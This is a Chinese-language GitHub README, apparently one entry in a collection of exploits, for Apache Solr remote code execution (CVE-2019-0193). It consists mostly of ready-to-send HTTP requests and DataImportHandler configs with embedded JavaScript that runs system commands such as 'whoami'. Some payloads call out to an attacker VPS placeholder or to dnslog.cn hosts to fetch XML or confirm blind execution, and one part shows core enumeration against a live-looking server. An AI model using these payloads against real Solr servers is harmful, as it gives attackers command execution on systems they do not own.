 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

  - [Apache Solr Rce cve-2019-0193](#apache-solr-rce-cve-2019-0193)
    - [# 1x01 恶意xml引用](#-1x01-%E6%81%B6%E6%84%8Fxml%E5%BC%95%E7%94%A8)
    - [# 有回显payload](#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload)
    - [# 有回显payload - 2](#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload---2)
    - [# 无回显payload](#-%E6%97%A0%E5%9B%9E%E6%98%BEpayload)
    - [# POST](#-post)
    - [# 区别](#-%E5%8C%BA%E5%88%AB)
    - [参考](#%E5%8F%82%E8%80%83)
    - [ENJOY!](#enjoy)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# Collection of verified vulnerabilities

## Apache Solr Rce cve-2019-0193

核心：
```bash
curl http://192.168.1.1:991/solr/admin/cores\?wt\=json                  
{"responseHeader":{"status":0,"QTime":17},"initFailures":{},"status":{"core1":{"name":"core1","instanceDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1","dataDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1\\data\\","config":"solrconfig.xml","schema":"managed-schema","startTime":"2021-04-25T12:43:08.088Z","uptime":62054759,"index":{"numDocs":181826,"maxDoc":181827,"deletedDocs":1,"indexHeapUsageBytes":-1,"version":15488,"segmentCount":13,"current":false,"hasDeletions":true,"directory":"org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1\\data\\index lockFactory=org.apache.lucene.store.NativeFSLockFactory@50d44b11; maxCacheMB=48.0 maxMergeSizeMB=4.0)","segmentsFile":"segments_1z0","segmentsFileSizeInBytes":-1,"userData":{"commitTimeMSec":"1619351488535"},"lastModified":"2021-04-25T11:51:28.535Z","sizeInBytes":81525254,"size":"77.75 MB"}},"us_series":{"name":"us_series","instanceDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series","dataDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series\\data\\","config":"solrconfig.xml","schema":"managed-schema","startTime":"2021-02-22T09:35:28.041Z","uptime":5429953208,"index":{"numDocs":0,"maxDoc":0,"deletedDocs":0,"indexHeapUsageBytes":0,"version":10,"segmentCount":0,"current":false,"hasDeletions":false,"directory":"org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series\\data\\index lockFactory=org.apache.lucene.store.NativeFSLockFactory@50d44b11; maxCacheMB=48.0 maxMergeSizeMB=4.0)","segmentsFile":"segments_3","segmentsFileSizeInBytes":-1,"userData":{"commitTimeMSec":"1591665641933"},"lastModified":"2020-06-09T01:20:41.933Z","sizeInBytes":1508,"size":"1.47 KB"}}}}
```
可利用的核心就是`core1`、`us_series`；即可构造传参url：

- http://192.168.1.1:991/solr/core1/dataimport
- http://192.168.1.1:991/solr/us_series/dataimport
- 有回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload)
- 无回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%97%A0%E5%9B%9E%E6%98%BEpayload)

### # 1x01 恶意xml引用
引用地址`(https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CoVV/ApacheSolr/solr.xml)`

### # 有回显payload

```
POST /solr/core1/dataimport?command=full-import&debug=true&wt=json
&indent=true&verbose=false&clean=false&commit=false&optimize=false&dataConfig= HTTP/1.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 212
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
content-type: multipart/form-data; 
boundary=------------------------aceb88c2159f183f


--------------------------aceb88c2159f183f
Content-Disposition: form-data; name="stream.body"

<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF>

--------------------------aceb88c2159f183f--
```
（放到Decoder模块url编码）dataConfig：
```
<dataConfig>

  <dataSource type="URLDataSource"/>
  <script><![CDATA[

          function poc(row){

var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()));

var result = [];

while(true) {
var oneline = bufReader.readLine();
result.push( oneline );
if(!oneline) break;
}

row.put("title",result.join("\n\r"));

return row;

}

  ]]></script>

        <document>
             <entity name="entity1"
                     url="http://{your_vps_ip}:{your_vps_port}/bin4xin.xml"
                     processor="XPathEntityProcessor"
                     forEach="/RDF/item"
                     transformer="script:poc">
                        <field column="title" xpath="/RDF/item/title" />
             </entity>
        </document>
</dataConfig>
```

![](../../assets/solr-RCE-echo-out.png)

### # 有回显payload - 2

> 2022/03/31/21:23:15 更新；发现一种**[无远程调用、有回显]**的exp

```
POST /solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22whoami%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20 HTTP/1.1  
Host: localhost
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Connection: close  
Upgrade-Insecure-Requests: 1  
Cache-Control: max-age=0  
Content-Length: 64  
  
<?xml version="1.0" encoding="UTF-8"?>  
<RDF>  
<item/>  
</RDF>
```

![2022-03-21-4.31.42.png](https://image.yjs2635.xyz/images/2022/03/31/2022-03-21-4.31.42.png)

### # 无回显payload

区别在于dataConfig：

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />

  <script><![CDATA[
          function poc(row){
 var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("ping w5zhv5.dnslog.cn").getInputStream()));

var result = [];

while(true) {
var oneline = bufReader.readLine();
result.push( oneline );
if(!oneline) break;
}

row.put("title",result.join("\n\r"));
return row;

}

]]></script>

<document>
    <entity
        stream="true"
        name="entity1"
        datasource="streamsrc1"
        processor="XPathEntityProcessor"
        rootEntity="true"
        forEach="/RDF/item"
        transformer="script:poc">
             <field column="title" xpath="/RDF/item/title" />
    </entity>
</document>
</dataConfig>

```

### # POST

```bash
POST /solr/core1/dataimport HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 581

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=new_core&name=dataimport&dataConfig=<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(data){
new+java.lang.ProcessBuilder["(java.lang.String[])"](["curl","fy544n.dnslog.cn"]).start()
}
  ]]></script>

  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

![](../../assets/solr-RCE-post-method.png)


### # 区别
左边无回显，右边有回显

![](../../assets/solr-payload-difference.png)

### 参考

[漏洞分析 - Apache Solr远程代码执行漏洞(CVE-2019-0193)](https://xz.aliyun.com/t/5965)

### ENJOY!